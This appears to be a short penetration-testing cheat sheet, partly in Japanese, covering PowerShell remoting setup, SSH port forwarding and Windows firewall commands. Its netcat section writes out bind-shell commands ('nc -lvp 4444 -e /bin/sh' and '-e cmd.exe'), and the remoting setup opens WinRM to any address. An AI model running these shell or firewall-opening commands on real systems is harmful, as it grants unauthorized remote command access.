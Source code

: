 # penetration-wiki

## PS-Session

### Server Settings

- username = `easyduck`
- password = `verystrongpassword`
- hostname = `rhostname`
- ipaddress = `xxx.xxx.xxx.xxx`

```pwsh
Enable-PSRemoting
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
net start WinRM
```

### Client

pattern 1

```pwsh
Enter-PSSession -ComputerName "xxx.xxx.xxx.xxx" -Credential "easyduck"
```

pattern 2

```pwsh
Enter-PSSession -ComputerName "hostname"-Credential "easyduck"
```

## Netcat

## Server Settings

- RPORT = `4444`
- RHOST = `xxx.xxx.xxx.xxx`

```bash
nc -lvp 4444 -e /bin/sh
nc -lvp 4444 -e cmd.exe
```

## Client

```bash
nc xxx.xxx.xxx.xxx 4444
```

## SSH Port Forwarding

### Local forward

remoteを経由してローカルにあるツールをtargetに対して使いたい場合

```
ssh -fNT -L xxx:target:zzz remote
```

### Remote forward

localを経由して外部にあるtargetにremoteからアクセスさせたい場合

```
ssh -fNT -R xxx:remote:zzz target
```

### Dynamic portforwarding

local を起点とし、remote にsshdが立っているとする。 このとき下記のように-Dオプションを指定して接続することで、local から見たlocalhost:1080がSOCKS Proxyとなる。 なお、SOCKS Proxyのポート番号はtcp/1080が標準的に用いられる [RFC 1928]。

on user@local

```
ssh -D 1080 user@remote
```

ここで local のブラウザ設定からlocalhost:1080をSOCKS Proxyとして指定すると、ブラウザからのすべてのアクセスが remote を経由したアクセスとなる。

## Windows Firewall Settings

https://docs.microsoft.com/en-US/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

```pwsh
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
New-NetFirewallRule -Name <名前> -DisplayName <表示名> -Enabled true -Profile <有効にするプロファイル> -Action Allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 10050 -RemotePort Any

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=private

netsh advfirewall firewall add rule name= "Open Port 80" dir=in action=allow protocol=TCP localport=80

netsh advfirewall firewall delete rule name= rule name program="C:\MyApp\MyApp.exe"

netsh advfirewall firewall delete rule name= rule name protocol=udp localport=500
  
netsh advfirewall reset
    
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
    
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
    	
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
  
netsh advfirewall firewall add rule name="ICMP Allow incoming V4 echo request" protocol=icmpv4:8,any dir=in action=allow
  
netsh advfirewall firewall add rule name= "All ICMP V4" protocol=icmpv4:any,any dir=in action=allow
  
netsh advfirewall firewall add rule name="Block Type 13 ICMP V4" protocol=icmpv4:13,any dir=in action=block

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
```

